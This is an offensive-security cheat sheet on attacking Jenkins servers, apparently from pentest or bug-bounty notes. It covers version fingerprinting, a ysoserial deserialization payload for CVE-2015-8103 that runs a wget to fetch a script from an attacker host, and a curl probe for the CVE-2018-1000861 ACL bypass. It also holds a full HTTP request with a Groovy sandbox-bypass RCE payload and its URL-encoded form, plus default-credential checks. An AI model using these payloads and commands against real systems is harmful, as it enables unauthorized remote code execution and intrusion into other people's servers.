 # Jenkins Common Bugs

## Introduction
What would you do if you came across a website that uses Jenkins?

## How to Detect
Usually in the HTTP response there is a header like this `X-Jenkins`

1. Find the related CVE by checking jenkins version
* How to find the jenkins version

By checking the response header `X-Jenkins`, sometimes the version is printed there. If you found outdated jenkins version, find the exploit at [pwn_jenkins](https://github.com/gquere/pwn_jenkins)

Some example CVE:
- Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)

Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

- Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).

- CheckScript RCE in Jenkins (CVE-2019-1003030)

How to Exploit:
- [PacketStorm](https://packetstormsecurity.com/files/159603/Jenkins-2.63-Sandbox-Bypass.html)

```
GET /jenkinselj/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
}
} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID.4495c8e0=node01jguwrtw481dx1bf3gaoq5o6no32.node0
Connection: close
Upgrade-Insecure-Requests: 1
```
URL Encoding the following for RCE
```
public class x {
  public x(){
"ping -c 1 xx.xx.xx.xx".execute()
    }
}
```
to

%70%75%62%6c%69%63%20%63%6c%61%73%73%20%78%20%7b%0a%20%20%70%75%62%6c%69%63%20%78%28%29%7b%0a%22%70%69%6e%67%20%2d%63%20%31%20%78%78%2e%78%78%2e%78%78%2e%78%78%22%2e%65%78%65%63%75%74%65%28%29%0a%7d%0a%7d

2. Default Credentials
```
Try to login using admin as username and password
```

3. Unauthenticated Jenkins Dashboard
```
Access https://target.com and if there is no login form then it is vulnerable
```

## Reference
* [pwn_jenkins](https://github.com/gquere/pwn_jenkins)